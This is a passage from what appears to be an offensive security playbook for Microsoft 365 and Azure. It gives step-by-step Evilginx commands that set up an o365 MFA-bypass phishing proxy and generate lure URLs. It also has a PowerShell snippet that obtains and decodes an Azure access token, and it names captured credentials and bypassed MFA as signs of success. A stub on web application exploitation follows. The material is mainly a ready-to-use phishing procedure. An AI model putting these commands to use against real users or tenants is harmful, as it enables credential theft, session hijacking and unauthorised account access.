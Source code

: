 2. Traditional phishing with Evilginx
   ```ruby
   # Evilginx Setup
   git clone https://github.com/kgretzky/evilginx2
   cd evilginx2
   make
   ./evilginx
   phishlets hostname o365-mfa domain.com
   phishlets enable o365-mfa
   lures get-url <lure-id>
   # Expected Output: Phishing URL
   ```

**Advanced Techniques**:
1. MFA Bypass with Evilginx
   ```ruby
   # Evilginx Configuration
   phishlets hostname o365-mfa domain.com
   phishlets enable o365-mfa
   lures create o365-mfa
   lures get-url <lure-id>
   ```

2. Token Capture and Reuse
   ```powershell
   # PowerShell
   $token = Get-AzAccessToken
   $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($token.split('.')[1]))
   $decoded | ConvertFrom-Json
   ```

**Success Indicators**:
- Captured credentials
- Obtained tokens
- Bypassed MFA

**Related Sections**:
- [User Enumeration](#user-enumeration)
- [Token Manipulation](#token-manipulation)
- [Token Persistence](#token-persistence)

### Web Application Attacks
**Scenario**: You've discovered a vulnerable web application and need to exploit it for access.

**Enumeration Path**:
1. Discovered web applications
2. Identified potential vulnerabilities
3. Tested for common issues
4. Confirmed exploitability

**Prerequisites**:
- Vulnerable web application
- Appropriate tools
- Network access
